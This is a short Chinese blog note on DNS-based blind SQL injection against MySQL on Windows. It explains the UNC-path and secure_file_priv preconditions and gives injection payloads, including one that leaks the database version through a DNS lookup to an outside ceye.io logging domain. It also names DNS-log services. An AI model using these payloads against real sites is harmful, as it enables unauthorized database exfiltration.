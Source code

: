 ```yaml
---
title: Mysql中的dns盲注
published: 2022-05-13
description: '最近遇到一个存在sql注入的站点，想进一步进行测试。基于时间盲注是可行的，但是效率不高，因此考虑能否使用dns盲注。'
image: ''
tags: ['sql注入']
category: '笔记'
draft: false 
lang: ''
---
```

* 因原服务器到期，该文章从原服务器迁移至此，图片可能模糊，见谅
# dns盲注条件
> 1. 系统需为windows：dns盲注需要使用Windows支持的UNC路径加载远程文件，linux并不支持UNC路径。
> 2. my.ini配置文件中需存在secure_file_priv=””，没有的话需要添加这项配置。默认是没有的。
> 即show variables like “%secure%”;中secure_file_priv的值为空白（非NULL）。

![](https://impos1.oss-cn-beijing.aliyuncs.com/%7B132913FB-FD27-448E-B97E-3892A4DDCDC5%7D.png)
# 什么是UNC路径
> 我的理解是UNC是用来进行网络共享的一种协议，即主机间相互访问资源。UNC路径格式如下：
> &#92;&#92;servername&#92;sharename，其中servername是服务器名。sharename是共享资源的名称。
# 本地测试
![](https://impos1.oss-cn-beijing.aliyuncs.com/20250827141031.png)
``` sql
id=1' and ()=1%23
id=1' and ( select load_file() )=1%23
id=1' and ( select load_file( concat('',(),'') ) )=1%23
id=1' and ( select load_file( concat('\\\\',(select version()),'.jlx20a.ceye.io') ) )=1%23
``` 
四个‘\’转义后即为&#92;&#92;
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7BC5E4629A-3D71-4524-A42D-49592DA8B0F7%7D.png)
dns平台结果
![](https://impos1.oss-cn-beijing.aliyuncs.com/20250827141146.png)
# 结束
两个比较推荐的dns平台：

> http://www.dnslog.cn/
> http://ceye.io/records/dns


本次测试仅本地测试打通了，因为远程站点是linux服务器，因此没有成功，只能用低效率的延时注入了。如果师傅们有好的方法欢迎交流。